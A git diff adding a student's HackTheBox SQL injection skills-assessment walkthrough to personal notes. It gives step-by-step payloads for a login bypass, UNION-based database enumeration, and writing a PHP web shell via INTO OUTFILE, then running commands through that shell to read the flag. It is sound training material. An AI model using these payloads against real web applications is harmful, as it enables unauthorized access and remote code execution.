

Before and after one commit to atutko2/HackTheBox, a Markdown page: Modules/SQLInjectionFundamentals/SQLInjection.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Completed sql injection

```diff
--- a/Modules/SQLInjectionFundamentals/SQLInjection.md
+++ b/Modules/SQLInjectionFundamentals/SQLInjection.md
@@ -334,3 +334,26 @@ First we can make sure that any and all input is sanatized. We can also make sur
 # Closing it Out
 
 ## Skills Assessment
+
+The skills assessment here is:
+Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system. Submit the contents of the flag as your answer.
+
+To do this, the first thing I did was run this on the login page:
+`admin' or 1=1 -- `
+
+This gets us to a page with a search bar and when you run this `' Union select 1,2,3,4, 5 -- -`you find that there are 5 columns in the current DB and columns 2,3,4,5 are displayed.
+
+So then I ran `' Union select 1,user(),3,4, 5 -- -` and found we are root@localhost`
+
+So then I ran `' UNION select 1,schema_name,3,4,5 from INFORMATION_SCHEMA.SCHEMATA-- -` and got the names of the other databases.
+
+Then I ran `' Union select 1,Database(),3,4, 5 -- -` and found we are on ilfreight.
+
+Then I checked if we had file priviliges, we do. So I checked if we have write priviliges with:
+`' UNION SELECT 1, variable_name, variable_value, 4, 5 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -`
+
+And the result is null, so we do. So I tried to run: `' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -` but I get permission denied.
+
+So we notice that the url is actually dashboard/dashboard.php, so I tried `' union select "",'<?php system($_REQUEST[0]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -` and that worked.
+
+Then I just ran ls on the current directory, and then ls .., and then ls ../../..... Until I found the root directory. Then I did, `http://94.237.56.188:46254/dashboard/shell.php?0=cat%20../../../../../flag_cae1dadcd174.txt` and got the answer.
```
